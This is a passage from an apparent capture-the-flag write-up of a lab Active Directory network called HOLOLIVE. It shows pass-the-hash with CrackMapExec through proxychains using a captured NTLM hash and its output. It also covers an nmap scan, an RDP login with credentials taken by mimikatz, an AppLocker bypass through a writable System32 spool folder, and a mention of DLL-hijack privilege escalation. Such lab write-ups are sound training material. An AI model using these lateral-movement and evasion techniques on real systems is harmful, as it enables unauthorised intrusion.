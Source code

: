 ```
        credman :
```

With all of this newly obtained info I can run CrackMapExec:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains -q crackmapexec smb 10.200.110.0/24 -u watamet -d HOLOLIVE -H d8d41e6cf762a8c77776a1843d4141c9

SMB         10.200.110.35   445    PC-FILESRV01     [*] Windows 10.0 Build 17763 x64 (name:PC-FILESRV01) (domain:HOLOLIVE) (signing:False) (SMBv1:False)
SMB         10.200.110.31   445    S-SRV01          [*] Windows 10.0 Build 17763 x64 (name:S-SRV01) (domain:HOLOLIVE) (signing:False) (SMBv1:False)
SMB         10.200.110.30   445    DC-SRV01         [*] Windows 10.0 Build 17763 x64 (name:DC-SRV01) (domain:HOLOLIVE) (signing:False) (SMBv1:False)
SMB         10.200.110.35   445    PC-FILESRV01     [+] HOLOLIVE\watamet:d8d41e6cf762a8c77776a1843d4141c9 
SMB         10.200.110.31   445    S-SRV01          [+] HOLOLIVE\watamet:d8d41e6cf762a8c77776a1843d4141c9 (Pwn3d!)
SMB         10.200.110.30   445    DC-SRV01         [+] HOLOLIVE\watamet:d8d41e6cf762a8c77776a1843d4141c9
```

We can see this new user has access to a new server on the network: `10.200.110.35 (PC-FILESRV01)`


## PC-FILESRV01
From scanning the new server we can see RDP is open:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains -q nmap -F 10.200.110.35                                                                      
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-10 12:17 EDT
Nmap scan report for 10.200.110.35
Host is up (0.25s latency).
Not shown: 95 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```

So I used remmina to connect with RDP. I used the credentials that I found with mimikatz for that. And grabbed the user flag from the Desktop.

From here started to enumerate the machine. To bypass Applocker I installed my enumeration apps to `C:\Windows\System32\spool\drivers\color`. I enumerated the machine with Seatbelt, SharpEDRChecker, and PowerView according to how the task wanted me to do so. The most crucial piece of info I found was `S-SRV01.holo.live` - local admin.

Now, the intended way for privesc on this machine was with dll hijacking for an application called: `kavremover` on the machine. However the machine had issues with this part for a while now, so I decided to look up an alternative way to privesc.
